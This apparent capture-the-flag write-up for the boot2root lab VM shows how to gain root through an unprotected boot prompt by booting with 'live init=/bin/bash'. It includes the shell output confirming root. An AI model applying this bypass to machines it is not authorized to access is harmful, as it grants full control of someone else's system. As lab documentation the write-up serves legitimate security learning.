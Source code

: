 This writeup explains how to become root by changing the booting sequence via GRUB.

In our case, the image of boot2root is mounted on a ubuntu VM using VMware fusion v12.


GRUB enables a user to change the way the OS starts by providing a command line interface.

In order to stop someone from using GRUB, it is possible to configure GRUB to work only for specific user accounts by setting user accounts in the GRUB configuration (username and password).

In this case, the access to GRUB is not protected so it is possible to boot the OS as we wish.

When starting the VM, simply press the left SHIFT key in order to access GRUB inside the VMware fusion VM's window.

```
boot:
```

Let's start the OS in a new shell :

```
boot: live init=/bin/bash
```

```
root@BornToSecHackMe:/# whoami
root
```

```
root@BornToSecHackMe:/# id
uid=0(root) git=0(root) groups=0(root)
```

Done!






